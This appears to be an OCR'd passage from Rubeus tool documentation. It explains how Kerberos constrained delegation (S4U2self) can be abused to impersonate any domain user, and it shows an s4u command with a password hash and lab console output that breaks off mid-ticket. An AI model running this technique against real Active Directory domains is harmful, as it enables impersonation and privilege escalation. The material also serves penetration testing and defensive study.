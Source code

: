 A **TL;DR** explanation is that an account with constrained delegation enabled is allowed to request tickets _to itself_ as any user, in a process known as S4U2self. In order for an account to be allowed to do this, it has to have **TrustedToAuthForDelegation** enabled in it's useraccountcontrol property, something that only elevated users can modify by default. This ticket has the **FORWARDABLE** flag set by default. The service can then use this specially requested ticket to request a service ticket to any service principal name (SPN) specified in the account's **msds-allowedtodelegateto** field. So long story short, if you have control of an account with **TrustedToAuthForDelegation** set and a value in **msds-allowedtodelegateto**, you can pretend to be any user in the domain to the SPNs set in the account's **msds-allowedtodelegateto** field.

This "control" can be the hash of the account (`/rc4` or `/aes256`), or an existing TGT (`/ticket:X`) for the account with a **msds-allowedtodelegateto** value set. If a `/user` and rc4/aes256 hash is supplied, the **s4u** module performs an [asktgt](#asktgt) action first, using the returned ticket for the steps following. If a TGT `/ticket:X` is supplied, that TGT is used instead.

A `/impersonateuser:X` parameter **MUST** be supplied to the **s4u** module. If nothing else is supplied, just the S4U2self process is executed, returning a forwardable ticket:

    C:\Rubeus>Rubeus.exe s4u /user:patsy /rc4:2b576acbe6bcfda7294d6bd18041b8fe /impersonateuser:dfm.a

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\patsy'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 230 bytes
    [*] Received 1377 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        doIE+jCCBPagAwIBBaEDAgEWoo...(snip)...


    [*] Action: S4U

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2self request for: 'TESTLAB.LOCAL\patsy'
    [*] Sending S4U2self request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1437 bytes
    [*] Received 1574 bytes
    [+] S4U2self success!
    [*] Got a TGS for 'dfm.a@TESTLAB.LOCAL' to 'TESTLAB.LOCAL\patsy'
    [*] base64(ticket.kirbi):
